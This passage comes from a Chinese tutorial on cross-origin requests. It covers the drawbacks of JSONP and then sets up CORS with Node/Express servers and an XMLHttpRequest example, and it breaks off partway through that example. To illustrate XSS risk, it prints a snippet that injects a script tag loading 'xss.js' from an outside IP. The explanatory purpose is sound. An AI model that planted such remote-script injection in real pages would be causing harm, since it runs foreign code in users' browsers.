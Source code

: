 缺点：

- 只能发送 get 请求 不支持 post、put、delete；
- 不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面代码。

```JavaScript
let script = document.createElement('script');
script.src = "http://192.168.0.57:8080/xss.js";
document.body.appendChild(script);;
```

会把别人的脚本引入到自己的页面中执行，如：弹窗、广告等，甚至更危险的脚本程序。

### 二、使用 CORS 跨域

跨源资源共享/CORS（Cross-Origin Resource Sharing）是 W3C 的一个工作草案，定义了在必须访问跨源资源时，浏览器与服务器应该如何沟通。CORS 背后的基本思想，就是使用自定义的 HTTP 头部让浏览器与服务器进行沟通，从而决定请求或响应是应该成功，还是应该失败。

使用场景：多用于开发时，前端与后台在不同的 ip 地址下进行数据访问。

现在启动两个端口号不同的服务器，创建跨域条件，服务器（NodeJS）代码如下：

```javascript
// 服务器1
const express = require(express);
let app = express();
app.use(express.static(__dirname));
app.listen(3000);

// 服务器2
const express = require("express");
let app = express();
app.get("/getDate", function(req, res) {
    res.end("I love you");
});
app.use(express.static(__dirname));
app.listen(4000);
```

由于我们的 NodeJS 服务器使用 `express` 框架，在我们的项目根目录下的命令行中输入下面代码进行安装：

> npm install express --save

通过访问 [http://localhost](http://localhost/):3000/index.html 获取 `index.html` 文件并执行其中的 `Ajax` 请求 [http://localhost](http://localhost/):4000/getDate 接口去获取数据，`index.html` 文件内容如下：

```html
<!-- 文件：index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CORS 跨域</title>
</head>
<body>
    <script>
        let xhr = new XMLHttpRequest();

        // 正常 cookie 是不允许跨域的
        document.cookie = 'name=hello';

        // cookie 想要实现跨域必须携带凭证
        xhr.withCredentials = true;

        // xhr.open('GET', 'http://localhost:4000/getDate', true);
        xhr.open('PUT', 'http://localhost:4000/getDate', true);

        // 设置名为 name 的自定义请求头
        xhr.setRequestHeader('name', 'hello');
```